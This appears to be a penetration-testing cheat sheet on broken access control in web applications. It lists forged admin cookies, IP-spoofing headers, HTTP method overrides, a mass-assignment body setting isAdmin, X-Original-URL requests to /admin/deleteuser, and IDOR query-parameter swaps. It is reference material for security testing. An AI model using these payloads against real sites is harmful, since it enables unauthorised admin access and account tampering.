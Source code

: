 ```yaml
---
title: Broken Access Control
desc: The attacking methodology of broken access control in web applications.
tags: [Access, Burp, Control, Web]
alts: []
render_with_liquid: false
---
```


## Change Header Values

1. **Cookie**

    You may be able to get access to the login-required pages.

    ```
    Cookie: admin=true
    Cookie: isAdmin=true
    Cookie: access=1
    Cookie: access=true
    ```

2. **IP Spoofing**

    ```
    Cluster-Client-IP: 127.0.0.1
    Forwarded-For: 127.0.0.1
    X-Forwarded: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Original-URL: 127.0.0.1
    X-Originating-IP: 127.0.0.1
    X-ProxyUser-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Remote-IP: 127.0.0.1

    Host: 127.0.0.1
    ```

<br />

## Change Methods

```sh
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

<br />

## Change POST Params

```
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

<br />

## Add X-Original-URL, X-Rewrite-URL

```sh
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

<br />

## Change Query Parameters

```sh
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator

# GUID cannot be guessed but it may be found somewhere in the website.
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```
